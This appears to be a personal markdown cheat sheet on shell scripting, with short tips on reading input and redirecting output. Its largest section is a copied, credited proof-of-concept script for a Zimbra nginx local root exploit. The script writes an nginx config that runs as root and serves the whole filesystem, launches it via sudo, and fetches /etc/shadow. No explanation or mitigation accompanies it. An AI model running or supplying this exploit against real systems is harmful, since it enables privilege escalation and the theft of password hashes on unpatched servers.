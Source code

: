 # S c r i p t i n g

- _"A script should be run without errors"_
- _"It should perform the task for which it is intended"_
- _"Program logic is clearly defined and apparent"_
- _"A script does not do unnecessary work"_
- _"Scripts should be reusable"_

## Waiting for user input
````powershell
read -p "Write the path: " variableName
read -p "Press [ENTER] when finished..."
````

## Redirecting output
Code
````powershell
sudo apt update > /dev/null 2>&1 

````

## zimbra-nginx-local-root-exploit
- [Source](https://darrenmartyn.ie/2021/10/25/zimbra-nginx-local-root-exploit/)
````
#!/bin/bash
echo "[+] making config"
cat <<EOF >/tmp/nginx.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
server {
    listen 1337;
    root /;
    autoindex on;
}
}
EOF
echo "[+] Launching..."
sudo /opt/zimbra/common/sbin/nginx -c /tmp/nginx.conf
echo "[+] Reading /etc/shadow..."
curl http://localhost:1337/etc/shadow
````

